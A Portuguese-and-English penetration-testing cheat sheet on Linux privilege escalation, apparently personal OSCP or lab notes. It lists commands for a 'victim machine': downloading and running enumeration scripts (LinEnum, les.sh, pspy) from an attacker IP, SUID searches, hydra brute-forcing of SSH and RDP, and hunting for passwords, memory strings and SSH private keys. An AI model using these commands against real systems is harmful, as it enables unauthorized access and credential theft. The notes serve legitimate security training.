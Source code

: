 Linux PrivEsc
========================

Seguindo o a mesma premissa do windows, vamos verificar primeiramente o kernel e em sequência gente pode olhar alguns diretórios logo de cara:

## Kernel exploitation

<https://gabb4r.gitbook.io/oscp-notes/linux-post-exploitation/kernel-exploitation>

    wget http://10.10.14.17/4-privilege_escalation/les.sh
    chmod +x les.sh
    ./les.sh

Algo importante aqui na hora de escalar privilégios no sistema:

**Considerar a compilação para sistemas 32 bits**

https://www.geeksforgeeks.org/compile-32-bit-program-64-bit-gcc-c-c/

## Navegar nos diretórios

    ls -al /usr/local/
    ls -al /usr/local/src
    ls -al /usr/local/bin
    ls -al /opt/
    ls -R -al /home #Fazer recursivamente neste
    ls -al /var/
    ls -al /usr/src/

OS COMANDOS AQUI SÃO EXECUTADOS TODOS NA MÁQUINA VÍTIMA

## SUID e SGID

Com isso podemos executar o arquivo (caso seja um executável) conforme a permissão do dono do arquivo. Ou seja, se o dono do arquivo for root e o SUID bit estiver definido para o binário, podemos realizar a escalação de privilégio.

    find / -perm -u=s -type f 2>/dev/null
    find / -perm -g=s -type f 2>/dev/null

## LinEnum

https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

    wget http://10.10.14.17/linux/4-privilege_escalation/LinEnum.sh -O linenum.sh
    chmod +x linenum.sh
    ./lieneum.sh

ou 

https://raw.githubusercontent.com/bngr/OSCP-Scripts/master/bangenum.sh

## bangenum

è um resumo do LinEnum.sh

    wget http://10.10.14.17/4-privilege_escalation/bangenum.sh
    sed -i -e 's/\r$//' bangenum.sh
    chmod +x bangenum.sh
    ./bangenum.sh

## Local services

    netstat -nao

## Crontab (Serviços agendados)

    crontab -l
    cat /etc/crontab

## Process Enumeration

< https://github.com/DominicBreuker/pspy>

    wget http://10.10.14.17/4-privilege_escalation/pspy32
    #ou
    wget http://10.10.14.17/4-privilege_escalation/pspy64
    chmod +x pspy64
    ./pspy64
    


## ReusedPassword

Tentar usuário e senha sendo o mesmo com hydra, por exemplo

    hydra -L user.txt -P user.txt 10.10.10.10 ssh
    hydra -L users.txt -P users.txt rdp://10.10.10.10

Tentar senha de um usuário para outro também e rockyou

## Credentials from config files

Procurar a string PASSWORD ou password dentro de arquivos

    grep -rnw / -e 'password\|pass\|creds\|senha\|credentials' 2>/dev/null -i

    find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;

    grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null

In memory passwords
    
    strings /dev/mem -n10 | grep -i PASS


Generally, source code with hard coded credentials. Searcvh for php files, for examplo

## Credentials from local databases

Dump de credenciais do banco de dados

## Sudo access

    sudo -i
    sudo su
    sudo -
    
    # Este temos de verificar os binários que podemos executar com permissão de root
    sudo -l

## SSH keys

    find / -name authorized_keys 2> /dev/null

    find / -name id_rsa 2> /dev/null

## Binary exploitation

User Installed Software
Has the user installed some third party software that might be vulnerable? Check it out. If you find anything google it for exploits.

Common locations for user installed software

    /usr/local/
    /usr/local/src
    /usr/local/bin
    /opt/
    /home
    /var/
    /usr/src/

Debian

    dpkg -l

CentOS, OpenSuse, Fedora, RHEL

    rpm -qa (CentOS / openSUSE )

OpenBSD, FreeBSD

    pkg_info
    
## PATH Hijack
 
 Vide máquina [Pandora](Pandora.md#PrivEsc)